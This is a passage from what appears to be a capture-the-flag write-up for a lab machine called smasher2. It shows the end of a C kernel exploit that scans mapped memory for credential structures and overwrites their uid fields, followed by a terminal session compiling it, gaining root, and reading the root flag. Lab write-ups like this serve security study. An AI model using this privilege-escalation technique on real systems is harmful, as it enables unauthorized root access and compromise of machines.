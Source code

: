 ```c
				break;
			}
			else
			{
				credIt = 0;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
				addr[credIt++] = uid;
			}
		}
		addr++;
	}
	puts("[+] Scanning loop END");
	fflush(stdout);
	
	int stop = getchar();
	return 0;
}
```

After compiling and running the code, we get root access:

```
dzonerzy@smasher2:/dev/shm$ gcc -w -o exploit exploit.c
dzonerzy@smasher2:/dev/shm$ ./exploit
[+] PID: 15475
[+] Open OK fd: 3
[+] mmap OK addr: 42424000
[+] UID: 1000
[+] Found cred structure! ptr: 0x763600c4, credNum: 1
[+] Found cred structure! ptr: 0x76360544, credNum: 2
[+] Found cred structure! ptr: 0x76360cc4, credNum: 3
[+] Found cred structure! ptr: 0x76361444, credNum: 4
[+] Found cred structure! ptr: 0x76361b04, credNum: 5
[+] Found cred structure! ptr: 0x76361bc4, credNum: 6
[+] Found cred structure! ptr: 0x76361e04, credNum: 7
[+] Found cred structure! ptr: 0x76c4af04, credNum: 8
[+] GOT ROOT!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(dzonerzy)

# cat /root/root.txt
7791e0...
```